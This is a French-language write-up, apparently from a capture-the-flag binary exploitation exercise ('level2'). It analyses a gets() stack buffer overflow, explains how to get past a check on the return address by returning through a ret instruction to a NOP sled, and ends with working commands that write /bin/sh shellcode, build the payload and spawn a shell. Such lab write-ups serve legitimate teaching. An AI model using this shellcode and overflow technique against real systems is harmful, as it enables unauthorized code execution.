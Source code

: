 
## Level 2

En dessasemblant le binaire level2, on trouve deux fonctions:

`main()` qui fait un simple appel a `p()`.

`p()` déclare un tableau de 76 bytes.
La fonction va lire sur l'entrée standart avec l'appel `gets()`qui est vulnérable, et stocker le resultat dans ce
tableau `src`.

![image](https://user-images.githubusercontent.com/29956389/94676129-271acc00-031b-11eb-8e8e-b462d6902a54.png)

Ensuite un pointeur est déclaré a l'adresse `[ebp + 0x4]`.
Une opération binaire est éffectué sur cette adresse, une condition est ensuite vérifié:

Si la condition est vrai, le programme affiche l'adresse du pointeur et quitte.

Si la condition est fausse, la chaine de caractère est affiché et copié, puis la
fonction quitte.

Le pointeur [ebp + 0x4] est en dehors de notre stackframe, la condition vérifie donc si un overflow a modifié l'adresse a cette adresse, qui est l'adresse de retour a laquelle la fonction sautera a la fin de l'execution.

Comme la condition vérifie que le premier byte qui overflow le tableau commence
par `0xb (adresse de stack)`, on ne peut pas directement placer l'adresse de notre
nopsled dedans (Qui serait d'habitude soit sur la stack, soit dans l'environement).

Par contre, on peut y déclarer toute autre valeur, comme par exemple l'adresse
de l'instruction `return` de cette fonction.

Pour ensuite rediriger l'EIP sur notre nopsled, on y rajoute l'adresse en plus.

Soit `[80 bytes pour remplir le buffer] + [Adresse instruction ret] + [&Nopsled]`.

En ajoutant cet addresse, nous allons réécrire la sauvegarde EIP, qui est stocké
avant l'appel a `call p()`. Le programme essayera donc de reprendre son
execution normal en revenant de la fonction `p()`, mais l'adresse de notre nopsled
y sera stocké, et l'EIP executera notre shellcode.

En code:

`echo -ne '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin`

`export SLEDCODE=$(python -c 'print "\x90"*128')$(cat shellcode.bin)`

`python -c 'print "B"*80 + "\xff\xff\xff\x08" + "\x8c\xf8\xff\xbf"' > /tmp/buffer`

`cat /tmp/buffer - | ./level2`

Et on obtient un shell!
